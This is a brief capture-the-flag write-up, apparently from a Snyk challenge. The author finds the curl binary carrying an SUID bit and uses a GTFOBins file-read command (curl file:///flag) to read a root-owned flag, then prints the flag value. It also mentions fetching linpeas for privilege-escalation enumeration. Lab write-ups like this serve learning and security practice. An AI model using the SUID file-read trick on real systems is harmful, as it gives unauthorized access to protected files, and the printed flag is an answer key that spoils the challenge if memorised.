 # All your flags are belong to root


When using curl to download linpeas, I noticed the group owner was changed to root instead of the regular user I was on the box with.

Checking the curl permissions, it looks like it has an SUID bit set. So I can use the file read from GTFOBins to read the flag which is in the root directory

```bash
LFILE=/flag
curl file://$LFILE
```
![image](https://user-images.githubusercontent.com/80063008/136172237-db11ec2a-5ffe-45e9-932b-bc990df52a6a.png)


SNYK{06b0e0ae4995af71335eda2882fecbc5008b01d95990982b439f3f8365fc07f7}
